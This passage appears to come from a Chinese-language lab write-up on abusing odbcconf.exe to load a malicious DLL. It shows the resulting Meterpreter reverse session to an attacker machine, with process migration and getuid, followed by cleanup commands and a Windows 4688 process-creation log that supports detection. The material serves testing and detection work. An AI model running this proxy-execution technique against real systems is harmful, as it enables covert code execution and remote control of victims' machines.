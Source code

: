 **结果**：
- `odbcconf.exe`调用`rundll32.exe`加载`payload.dll`，触发Meterpreter Payload。
- 攻击机接收会话：
  ```bash
  [*] Sending stage (180291 bytes) to 192.168.126.149
  [*] Meterpreter session 2 opened (192.168.126.146:53 -> 192.168.126.149:49306) at 2023-10-01 10:00:00 +0800
  [*] Session ID 2 (192.168.126.146:53 -> 192.168.126.149:49306) processing AutoRunScript 'migrate -f'
  [*] Current server process: rundll32.exe (912)
  [*] Spawning notepad.exe process to migrate to
  [+] Migrating to 3820
  [+] Successfully migrated to process
  meterpreter > getuid
  Server username: 12306Br0-PC\12306Br0
  ```

#### 4. 清理

**靶机**：
```cmd
taskkill /IM odbcconf.exe /F
taskkill /IM rundll32.exe /F
taskkill /IM notepad.exe /F
del C:\payload.dll
```

**攻击机**：
- 关闭Metasploit会话：`exit`

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: 12306Br0-PC
描述:
已创建新进程。

进程信息:
  新进程 ID: 0xfec
  新进程名称: C:\Windows\SysWOW64\odbcconf.exe
  令牌提升类型: TokenElevationTypeDefault (1)
  创建者进程 ID: 0xefa
  创建者进程名称: C:\Windows\System32\cmd.exe
  进程命令行: C:\Windows\SysWOW64\odbcconf.exe /A {REGSVR C:\payload.dll}
```

